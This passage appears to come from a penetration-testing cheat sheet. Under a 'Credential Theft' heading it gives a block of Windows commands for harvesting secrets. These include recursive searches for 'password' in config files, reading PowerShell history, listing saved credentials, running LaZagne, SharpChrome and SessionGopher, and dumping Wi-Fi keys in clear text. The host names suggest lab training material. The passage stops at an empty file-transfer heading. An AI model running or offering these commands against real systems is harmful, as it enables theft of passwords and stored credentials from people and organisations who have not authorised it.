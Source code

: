 ### Credential Theft

Extract credentials from Windows systems:

```powershell
# Search for passwords in files
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml

# Search Chrome dictionary
gc 'C:\Users\lafi\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password

# PowerShell history
(Get-PSReadLineOption).HistorySavePath
gc (Get-PSReadLineOption).HistorySavePath

# Decrypt PowerShell credentials
$credential = Import-Clixml -Path 'C:\scripts\pass.xml'

# Search file contents
cd c:\Users\lafi\Documents & findstr /SI /M "password" *.xml *.ini *.txt
findstr /si password *.xml *.ini *.txt *.config
findstr /spin "password" *.*
select-string -Path C:\Users\lafi\Documents\*.txt -Pattern password

# Search for specific files
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ *.config
Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore

# List saved credentials
cmdkey /list

# Extract Chrome credentials
.SharpChrome.exe logins /unprotect

# Run LaZagne
.lazagne.exe -h
.lazagne.exe all

# Run SessionGopher
Invoke-SessionGopher -Target WINLPE-SRV01

# Extract wireless passwords
netsh wlan show profile
netsh wlan show profile ilfreight_corp key=clear
```

### File Transfers and Encoding

Transfer and encode files on Windows:
